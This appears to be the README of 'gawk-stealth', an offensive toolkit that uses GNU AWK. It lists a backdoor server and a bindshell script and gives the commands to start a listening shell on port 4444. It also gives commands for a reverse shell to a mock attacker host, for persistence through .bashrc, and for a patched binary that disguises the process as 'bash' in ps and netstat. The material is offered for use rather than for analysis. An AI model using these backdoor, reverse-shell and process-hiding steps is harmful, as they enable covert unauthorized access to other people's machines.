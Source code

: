 [gawk-stealth](http://gitbrew.org/gawk)  
========================================
##Copyright (C) 2012 Iadnah [<iadnah@gitbrew.org>](mailto:iadnah@gitbrew.org)  
##gawk-stealth is distributed under the GNU GPL  
  
  
###SYNOPSIS  
  
Gawk-Stealth consists of two parts: a set of scripts that can be run from within GNU AWK (using the -f option), and a statically linked 32-bit version of GNU AWK that is patched with our Romulan Cloaking technology.  
  
The scripts included in gawk-stealth are:  
* banner_grab.gawk - simple awk banner grabber
* banner_grab_pastable.gawk - one-line pastable version of the banner grabber
* gawk_get.gawk - script to make an HTTP (no HTTPS) request and dump output to STDOUT
* gawk_http_bnc.gawk - Listens on a port and when a connection is made to it, performs an HTTP request as configured and redirects output to connecting host
* gawkserv.gawk - Very simple POC backdoor server
* rgawkcmd-0.2.gawk - Full-featured bindshell with listen, reverse-connect, and authentication options
  
###COMPILING gawk32.static    
  
To compile, untar the version of gawk in static_gawk, apply the gawk-3.1.8_gawkhide.patch, and compile using the makestatic script.  
  
###SAMPLE USES  
  
The main script of interest is rgawkcmd-0.2.gawk.  When using it, the most important thing to keep in mind is that options are set using environmental variables.  In bash, you may set these with the export command, or to make more persistent you can add the env vars to .bashrc in the home directory.  

To make a listening bindshell with rgawkcmd-0.2.gawk, issue the following commands:  

	$ export RGC_LPORT=4444
	$ export RGC_MODE="listen"
	$ gawk -f rgawkcmd-0.2.gawk

This will open up a listening bindshell on port 4444.  To do a reverse bindshell, you would enter:  

	$ export RGC_MODE="remote"
	$ export RGC_RPORT=4444
	$ export RGC_HOST="totallylegitimate.nationalbankofuganda.com"
	$ gawk -f rgawkcmd-0.2.gawk
	
###ROMULAN CLOAKING TECHNOLOGY

In order to turn on Romulan Cloaking Device (reverse engineered by CDR Data from a Romulan Warbird captured by CPT Jean-Luc Picard), set GAWK_HIDE to anything but NULL.  Example:  

	$ export GAWK_HIDE=1
	
This changes argv[0] to read "bash" (for ps and netstat purposes).  
NOTE: this requires you use patched version of GNU AWK included with this package.  

##LICENSE  
gawk-stealth Copyright (C) 2012 Iadnah iadnah@gitbrew.org

This program is free software; you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation; either version 2 of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with this program; if not, write to the Free Software Foundation, Inc., 59 Temple Place, Suite 330, Boston, MA 02111-1307 USA

See the COPYING file for more information.

---
Iadnah [<iadnah@gitbrew.org>](mailto:iadnah@gitbrew.org)  
Security Consultant  
[gitbrew.org](http://gitbrew.org)  
[Hephaestus Security](http://hephaestussec.com)
